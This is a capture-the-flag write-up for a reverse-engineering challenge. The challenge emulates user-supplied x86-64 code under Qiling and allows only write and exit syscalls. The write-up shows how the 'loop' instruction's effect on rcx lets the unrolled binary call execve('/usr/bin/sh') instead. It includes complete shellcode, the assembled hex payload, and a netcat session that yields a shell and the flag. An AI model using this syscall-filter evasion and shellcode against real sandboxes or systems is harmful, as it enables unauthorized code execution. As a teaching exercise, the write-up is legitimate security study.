 # Flattened

rev medium, 18 solves, 471 points

### First Looks

Downloading the challenge and taking a look at `chall.py`,
we can see that the user's hex input is interpreted as x86-64 assembly amd executed by the Qiling binary emulation framework.
Each executed instruction is added to a list, then joined in a binary at the end which is run.
This is the idea of `flattening`, loops are essentially unrolled into sequential instructions.
This is why all `loop` instructions are not added to the final list.

### The Problem

However, there is a catch, syscalls not in {0x1, 0x3c} = {SYS_write, SYS_exit} are flagged as illegal and causes the entire program to terminate.
So we cannot simply call `execve` or something similar to get a reverse shell.

```python
allowed_syscalls = {1, 0x3c}
if (
        capstone.x86_const.X86_GRP_INT in i.groups
        and ql.reg.eax not in allowed_syscalls
):
    print(f"[-] syscall = {hex(ql.reg.eax)}")
    raise ValueError("HACKING DETECTED!")
```

### Formulating a Plan
We need to write a assembly program such that the execution is different when unrolled. Our goal is to then have Qiling execute `write(STDOUT, NULL, 0)` (syscall 0x1) and after unrolling `execve('/usr/bin/sh', NULL, NULL)` (syscall 0x0b). Notice that on [x86-64](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) the `syscall` convention is is `rax(rdi, rsi, rdx, r10, r8, r9)`. So somehow if we can alter those registers in the unrolled version we are golden.

### Executing the Plan
I searched for all x86-64 instructions that branched on Google and found the "beauty" that is `loop <label>`. If `rcx` > 0 then it decrements `rcx` and jumps to the specified label. The key is that it has a side effect: `rcx` is modified. Since the unrolled version won't include this instruction, `rcx` will never be decremented. So we can use this to our advantage with the following snippet:

```
mov     rcx,1
l1:
loop    l1
```

Qiling: `rcx` = 0

Unrolled: `rcx` = 1 (only `mov` is executed, `loop` is a branching instruction so it was not included in unrolled assembly)

Now that we have this building block, what about altering `rax`, `rcx`, and `rdi`, thus changing the syscall? We can use `imul` with `ecx` to our advantage. For example consider:
```
mov     rax,58
imul    rax,rcx
syscall
inc     rax
```
There are no branching instructions but convince yourself that `rax` will be 59 on the unrolled executable and 1 on the Qiling executable.

### Final Assembly (shellcode)

```
xor     r15,r15                 ; xor reg,reg is the same as zeroing that reg
push    r15
push    r15
mov     r15,0x68732f
push    r15
mov     r15,0x6e69622f7273752f  
push    r15                     ; Put `/usr/bin/sh` on stack 8 bytes (characters) at a time

mov     rcx,1
l1:
loop    l1                      ; rcx = qiling ? 0 : 1

mov     rax,58
imul    rax,rcx                 ; rax = qiling ? 0 (write sycall number - 1) : 58 (execve syscall number - 1)
inc     rax                     ; syscall = qiling ? 1 (write) : 59 (execve)

mov     rdi,rsp
dec     rdi
imul    rdi,rcx
inc     rdi                     ; rdi = syscall arg0 = qiling ? 1 (STDOUT) : rsp (pointer to '/usr/bin/sh')

xor     rsi,rsi                 ; zero out arg1
xor     rdx,rdx                 ; zero out arg2
syscall                         ; qiling ? write(STDOUT, NULL, 0) : execve('/usr/bin/sh', NULL, NULL)

mov     rax,0x3c
xor     rdi,rdi
syscall                         ; exit(0)
```
### Final Input

We can use `pwntools` to assemble:

```python
from pwn import *

context.arch = "amd64"

print(asm(open('shellcode.S').read()).hex())
```

Which gives us: `4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05`

### Flag

```
❯ nc pwn.chall.pwnoh.io 13377


Enter code in hex:
4d31ff4157415749c7c72f736800415749bf2f7573722f62696e415748c7c101000000e2fe48c7c03a000000480fafc148ffc04889e748ffcf480faff948ffc74831f64831d20f0548c7c03c0000004831ff0f05
[+] 0x11ff000: xor r15, r15
[+] 0x11ff003: push r15
[+] 0x11ff005: push r15
[+] 0x11ff007: mov r15, 0x68732f
[+] 0x11ff00e: push r15
[+] 0x11ff010: movabs r15, 0x6e69622f7273752f
[+] 0x11ff01a: push r15
[+] 0x11ff01c: mov rcx, 1
[ ] 0x11ff023: loop 0x11ff023
[+] 0x11ff025: mov rax, 0x3a
[+] 0x11ff02c: imul rax, rcx
[+] 0x11ff030: inc rax
[+] 0x11ff033: mov rdi, rsp
[+] 0x11ff036: dec rdi
[+] 0x11ff039: imul rdi, rcx
[+] 0x11ff03d: inc rdi
[+] 0x11ff040: xor rsi, rsi
[+] 0x11ff043: xor rdx, rdx
[+] 0x11ff046: syscall
[=]     write(fd = 0x1, buf = 0x0, count = 0x0) = 0x0
[+] 0x11ff048: mov rax, 0x3c
[+] 0x11ff04f: xor rdi, rdi
[+] 0x11ff052: syscall
[=]     exit(code = 0x0)
[+] Your program has been flattened! Executing ...
ls
chall.py
flag.txt
cat flag.txt
buckeye{execve_plu5_0n3_1s_exit}
```

Notice how the `loop` instruction is not included, and how `write` changes to our `execve` shell